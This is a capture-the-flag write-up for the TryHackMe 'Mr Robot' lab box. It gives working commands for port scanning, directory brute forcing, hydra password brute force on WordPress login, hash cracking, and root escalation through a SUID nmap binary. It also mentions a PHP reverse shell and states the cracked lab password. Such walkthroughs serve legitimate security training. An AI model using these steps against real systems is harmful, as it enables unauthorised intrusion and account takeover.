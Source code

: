 ```yaml
---
title: Box - Mr Robot CTF
published: true
---
```


Based on the Mr. Robot show, can you root this box?

[https://tryhackme.com/room/mrrobot](https://tryhackme.com/room/mrrobot)

![0xskar](/assets/mrrobot01.jpg)

* * *

## Hack the Machine

##   Nmap Scans

- Discover open ports with ``nmap -Pn -sS -T5 10.10.122.32 -p- -vvv``
- We find ports 22,80,443
- Port 22/tcp  closed ssh      reset ttl 61

> Port 80/tcp  open   http     syn-ack ttl 61 Apache httpd
> http-favicon: Unknown favicon MD5: D41D8CD98F00B204E9800998ECF8427E
> http-title: Site doesn't have a title (text/html).
> http-methods: 
> Supported Methods: GET HEAD POST OPTIONS
> http-server-header: Apache

##  What is key 1?

- ``gobuster dir -u http://10.10.122.32/ -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt -x txt,html,php -t 100``
- Robots.txt

##  What is key 2?

- ``/wp-login.php`` we can brute force using the fsocity.dic found in robots.txt
- using foxyproxy and burpsuite we can capture what we need to generate our hydra code
- ``hydra -L fsocity.dic -p password 10.10.122.32 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^:Invalid username"``
- We find username Elliot
- ``hydra -l Elliot -P fsocity.dic 10.10.122.32 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^:The Password you entered for the username"``
- eventually you will get the password ``ER28-0652``
- open up netcat listener and change the theme to php reverse shell
- upgrade shell ``python -c 'import pty; pty.spawn("/bin/bash")'``

![0xskar](/assets/mrrobot02.png)

- John the ripper the raw-md5 hash in robot dir in order to su to robot ``john password.raw-md5 --wordlist=fsocity.dic --format=Raw-MD5``

![0xskar](/assets/mrrobot03.png)

##   Linpeas.sh - PrivESC Vectors

- **SUID** - /usr/local/bin/nmap - [GTFO BINS](https://gtfobins.github.io/gtfobins/nmap/#suid)

- ``nmap --interactive``

```shell
Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !whoami
!whoami
root
waiting to reap child : No child processes
nmap> !sh
!sh
# whoami
whoami
root
```

##  What is key 3?

![0xskar](/assets/mrrobot04.png)

* * * 